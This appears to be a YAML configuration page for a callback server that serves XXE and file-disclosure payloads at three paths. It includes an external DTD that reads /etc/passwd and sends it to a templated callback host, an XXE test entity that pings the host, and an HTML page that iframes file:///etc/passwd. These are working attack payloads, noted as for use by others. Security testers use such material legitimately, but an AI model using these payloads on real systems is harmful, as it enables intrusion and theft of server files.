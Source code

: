 ```yaml
---
title: XXE
description: More XXE
weight: 1
payloads:
  - type: HTTPX
    project_id: 1
    sort_order: 1
    pattern: /dt$
    data:
      headers:
      Content-Type: text/xml
      body: |-
        <?xml version="1.0" encoding="ISO-8859-1"?>
        <!DOCTYPE foo [
          <!ELEMENT foo ANY >
          <!ENTITY xxe SYSTEM "http://{{ .Host }}/{{ .NotifyString }}/xxe-test" >
        ]>
        <foo>&xxe;</foo>

  - type: HTTPX
    project_id: 1
    sort_order: 1
    pattern: /evil\.dtd$
    data:
      headers:
        Content-Type: text/xml
      body: |-
        <!ENTITY % payl SYSTEM "file:///etc/passwd">
        <!ENTITY % int "<!ENTITY % trick SYSTEM 'http://{{ .Host }}:80/{{ .NotifyString }}/xxe?p=%payl;'>">

  - type: HTTPX
    project_id: 1
    sort_order: 1
    pattern: /ht$
    data:
      headers:
        Content-Type: text/html
      body: |
        <html>
        <body>
          <img src="{{.NotifyString}}/static-lh" />
          <iframe src="file:///etc/passwd" height="500"></iframe>
        </body>
        </html>

---
```


### /dt

### /evil.dtd

dtd for use by others

### /ht

I frame callback
